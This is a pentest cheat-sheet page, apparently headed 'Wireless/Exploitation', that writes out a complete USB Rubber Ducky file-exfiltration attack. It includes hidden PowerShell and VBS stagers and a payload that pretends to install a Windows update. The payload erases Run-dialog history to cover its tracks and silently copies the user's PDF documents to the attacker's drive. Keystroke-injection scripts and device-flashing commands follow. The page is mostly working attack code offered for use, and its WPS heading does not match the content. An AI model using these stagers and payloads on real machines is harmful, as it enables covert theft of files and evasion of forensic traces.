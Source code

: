 ```yaml
---
title: Wireless
category: Exploitation
order: 99
---
```


> **WPS** 

The following need to be installed:

* [Reaver](https://code.google.com/p/reaver-wps/)

{% highlight powershell %}
for /f %d in ('wmic volume get driveletter^, label^|findstr “DRIVENAME”'') do @set DK=%d 
{% endhighlight %}


> **Execute the Stager** 

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass " $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DriveName' } | select name; cd $uP.name; .\d.cmd"
{% endhighlight %}

> **Clean up run history** 

{% highlight powershell %}
Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue
{% endhighlight %}

> **Run the Program and Clean-up**

{% highlight powershell %}
powershell -NoP -NonI -W Hidden -Exec Bypass "rp -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU' -Name '*' -ErrorAction SilentlyContinue; $up = Get-WMIObject Win32Volume | ? { $_.Label -eq 'DN' } | select name; cd $uP.name; .\d.cmd"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
{% endhighlight %}

{% highlight powershell %}
#Second Version
powershell "$u=gwmi Win32_Volume|?($_Label -eq'_')|select name; cd $uname;.\d.cmd"
#65 Character Version
powershell".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
#Note: Runtime max is 260 characters - use aliases to reduce
#Note: _ is Drive Name
#Note: The shorter versions don't change the directory
{% endhighlight %}

> **d.cmd: Stager 1** 

{% highlight powershell %}
@echo off
REM start /MIN e.cmd
@cls
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"
cscript i.vbs e.cmd
@exit
#Note: Powershell portion flashes the CAPS lock button to demonstrate that the first stage has completed successfully
{% endhighlight %}

> **i.vbs: Stager 2** 
{% highlight vb %}
CreateObject("Wscript.Shell").Run """ & WScript.Arguments(0) & """", 0, False
{% endhighlight %}

> **e.cmd: Payload** 

{% highlight powershell %}
@echo off
@echo Installing Windows Update

REM Delete registry keys storing Run dialog history
REG DELETE HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /f

REM Creates directory compromised of computer name, date and time
REM %~d0 = path to this batch file. %COMPUTERNAME%, %date% and %time% pretty obvious
set dst=%~d0\slurp\%COMPUTERNAME%_%date:~-4,4%%date:~-10,2%%date:~7,2%_%time:~-11,2%%time:~-8,2%%time:~-5,2%
mkdir %dst% >>nul

if Exist %USERPROFILE%\Documents (
REM /C Continues copying even if errors occur.
REM /Q Does not display file names while copying.
REM /G Allows the copying of encrypted files to destination that does not support encryption.
REM /Y Suppresses prompting to confirm you want to overwrite an existing destination file.
REM /E Copies directories and subdirectories, including empty ones.

REM xcopy /C /Q /G /Y /E %USERPROFILE%\Documents\*.pdf %dst% >>nul

REM Same as above but does not create empty directories
xcopy /C /Q /G /Y /S %USERPROFILE%\Documents\*.pdf %dst% >>nul
)

REM Blink CAPSLOCK key
start /b /wait powershell.exe -nologo -WindowStyle Hidden -sta -command "$wsh = New-Object -ComObject WScript.Shell;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}');sleep -m 250;$wsh.SendKeys('{CAPSLOCK}')"

@cls
@exit
{% endhighlight %}

> **Rubber Ducky Stager**

{% highlight bash %}
REM USB Exfiltration Payload from Hak5 episodes 2112 - 2114
REM Target: Windows XP SP3+ Author: Hak5Darren Props: Diggster, Midnightsnake
DELAY 1000
GUI r
DELAY 100
STRING powershell ".((gwmi win32_volume -f 'label=''_''').Name+'d.cmd')"
ENTER
{% endhighlight %}

> **Encode Using Rubber Ducky Encoder**

{% highlight bash %}
java -jar duckencode.jar -i ../slerp/payload.txt -o inject.bin
./ducktools.py -e -l us ../slerp/payload.txt inject.bin
{% endhighlight %}

> **Flashing Rubber Ducky**

{% highlight bash %}
sudo apt-get install dfu-programmer
sudo dfu-programmer at32uc3b1256 dump
sudo dfu-programmer at32uc3b1256 erase
sudo dfu-programmer at32uc3b1256 flash --supress-bootloader-mem c_duckv2.1.hex
sudo eject /media/dk/_
{% endhighlight %}

{% highlight bash %}
sudo ./ducky-flasher
sudo eject /media/dk/_
{% endhighlight %}

> **Further References** 

Rubber Ducky Encoder:<br>
[https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar](https://github.com/hak5darren/USB-Rubber-Ducky/blob/master/Ducky_Encoder_GUI.jar)
[https://github.com/kevthehermit/DuckToolkit](https://github.com/kevthehermit/DuckToolkit)

Create a Rubber Ducky:<br>
[http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick](http://www.pentestingshop.com/pentesting/make-your-own-usb-rubber-ducky-using-a-normal-usb-stick)
[https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-
stick](https://forums.hak5.org/index.php?/topic/34950-how-to-make-a-usb-rubber-ducky-using-a-normal-usb-stick)

Payloads:<br>
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads)
[https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/My-first-payload)

[https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky](https://www.hak5.org/episodes/season-21/hak5-2112-stealing-files-with-the-usb-rubber-ducky)

[https://github.com/hak5darren/USB-Rubber-Ducky](https://github.com/hak5darren/USB-Rubber-Ducky)

[http://usbrubberducky.com/#!index.md](http://usbrubberducky.com/#!index.md)

[https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)

[](https://www.hak5.org/blog/hak5/stealing-files-with-the-usb-rubber-ducky-usb-exfiltration-explained)


